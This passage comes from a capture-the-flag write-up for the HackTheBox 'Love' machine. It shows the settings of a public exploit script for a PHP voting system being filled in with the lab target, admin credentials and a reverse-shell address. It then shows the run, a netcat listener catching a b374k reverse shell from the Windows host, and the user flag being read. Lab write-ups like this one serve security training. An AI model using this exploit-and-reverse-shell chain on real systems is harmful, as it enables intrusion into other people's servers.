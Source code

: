 Editing the configurations in the exploit code,

Before editing

```c
# --- Edit your settings here ----
IP = "192.168.1.207" # Website's URL
USERNAME = "potter" #Auth username
PASSWORD = "password" # Auth Password
REV_IP = "192.168.1.207" # Reverse shell IP
REV_PORT = "8888" # Reverse port
# --------------------------------

INDEX_PAGE = f"http://{IP}/votesystem/admin/index.php"
LOGIN_URL = f"http://{IP}/votesystem/admin/login.php"
VOTE_URL = f"http://{IP}/votesystem/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/votesystem/images/shell.php"
```

After editing

```c
# --- Edit your settings here ----
IP = "10.10.10.239" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.8" # Reverse shell IP
REV_PORT = "8989" # Reverse port
# --------------------------------

INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

After modifying this code, lets run our exploit along with ```netcat``` listener

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Love]
└─$ python3 49445.py                                                                                                                         1 ⨯
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully

┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Love]
└─$ nc -nlvp 8989   
listening on [any] 8989 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.239] 53453
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe

...

C:\Users\Phoebe\Desktop>more user.txt
more user.txt
<---USER FLAG--->

C:\Users\Phoebe\Desktop>
```
